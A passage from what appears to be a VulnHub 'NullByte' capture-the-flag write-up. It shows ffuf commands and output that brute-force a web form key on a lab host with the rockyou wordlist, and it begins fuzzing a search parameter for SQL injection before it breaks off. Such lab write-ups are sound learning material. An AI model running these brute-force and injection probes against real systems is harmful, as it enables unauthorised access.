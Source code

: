 	```
	┌──(root💀kali)-[~/vulnHub/NullByte]
	└─# ffuf -d "key=FUZZ" -u http://192.168.110.11/kzMb5nVYJw/index.php -H "Content-Type: application/x-www-form-urlencoded" -w /usr/share/wordlists/rockyou.txt -fw 19

			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : POST
	 :: URL              : http://192.168.110.11/kzMb5nVYJw/index.php
	 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
	 :: Header           : Content-Type: application/x-www-form-urlencoded
	 :: Data             : key=FUZZ
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 19
	________________________________________________

	elite                   [Status: 200, Size: 145, Words: 9, Lines: 7]
	```
8. Submit form w/ elite
	![](images/Pasted%20image%2020220203205259.png)
	
## TCP/80 - HTTP - SQLi Database Enum w/ SQLMap
9. Check if it is susceptible to SQLi
	```
	┌──(root💀kali)-[~/vulnHub/NullByte]
	└─# ffuf -u http://192.168.110.11/kzMb5nVYJw/420search.php?usrtosearch=FUZZ -w /usr/share/wordlists/sqli/vulnCheck.txt -fw 3
